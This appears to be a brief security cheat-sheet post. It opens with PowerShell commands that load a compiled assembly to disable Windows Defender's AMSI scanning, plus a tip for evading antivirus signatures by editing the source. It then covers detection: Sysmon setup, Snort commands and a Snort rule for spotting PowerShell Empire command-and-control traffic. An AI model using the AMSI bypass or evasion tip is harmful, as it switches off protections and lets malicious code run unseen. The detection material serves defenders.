 For Educational Purposes Only
Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()

Note: If your antivirus software blocks the Source.dll file, simply add a comment (e.g., //) in Source.cs to bypass antivirus signature detection.

Detecting PowerShell Processes with Sysmon and Wazuh
To monitor PowerShell processes using Sysmon:
Sysmon64.exe -accepteula -i sysconfig.xml

Detect PowerShell Empire Using Snort
Analyze a pcap file with Snort to detect PowerShell Empire activity:
bash

snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q

This command processes packets with Snort.

Snort Rule for Detecting PowerShell Empire C&C Malware
Here’s a sample Snort rule to detect PowerShell Empire C&C connections:
snort

alert http (
    msg:"PowerShellEmpire detected";
    flow:to_server,established;
    http_uri:path;
    content:"/login/process.php",nocase;
    http_header;
    content:"Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",nocase;
    http_cookie;
    content:"session",nocase;
    reference:url,attack.mitre.org/techniques/T1086;
    reference:url,powershellempire.com;
    classtype:trojan-activity;
    sid:56465; rev:5;
)

Snort 3 HTTP Buffers
Snort 3 provides several HTTP inspection buffers, including:
http_inspect::http_client_body
http_inspect::http_cookie
http_inspect::http_header
http_inspect::http_method
http_inspect::http_param
http_inspect::http_raw_body
http_inspect::http_raw_cookie
http_inspect::http_raw_header
http_inspect::http_raw_request
http_inspect::http_stat_code
http_inspect::http_uri
http_inspect::js_data
http_inspect::vba_data
Run Snort to analyze again:


snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg


For further reading, visit https://Livehack101.com.
